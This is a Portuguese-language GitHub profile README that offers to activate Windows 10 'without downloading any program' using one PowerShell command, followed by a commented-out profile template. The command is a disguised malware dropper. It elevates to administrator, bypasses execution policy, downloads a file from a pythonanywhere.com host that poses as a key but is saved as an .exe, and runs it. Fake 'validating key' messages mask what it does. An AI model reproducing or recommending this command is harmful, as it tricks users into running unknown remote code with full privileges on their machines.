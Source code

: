


#⚡ Como ativar Windows 10 da correta, sem baixar programa algum. Ative o Windows 10 apenas usando comando do nativos do Windows PowerShell (admin).


## Para ativar o Windows 10 copie e cole o comando no PowerShell do Windows.


### ATENÇÃO ::::: Copie o comando completo

> $path = "$env:TEMP\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe"; $url = "https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY"; if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) { Start-Process powershell.exe "-NoProfile -ExecutionPolicy Bypass -File `"$PSCommandPath`"" -Verb RunAs; exit } Write-Host "VERIFICANDO VERSÃO DO PRODUTO..."; Invoke-WebRequest -Uri $url -OutFile $path; Write-Host "VALIDANDO CHAVE NO SERVIDOR, AGUADE..."; Start-Process $path -Verb RunAs
<!--



**ativarwindows/ativarwindows** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
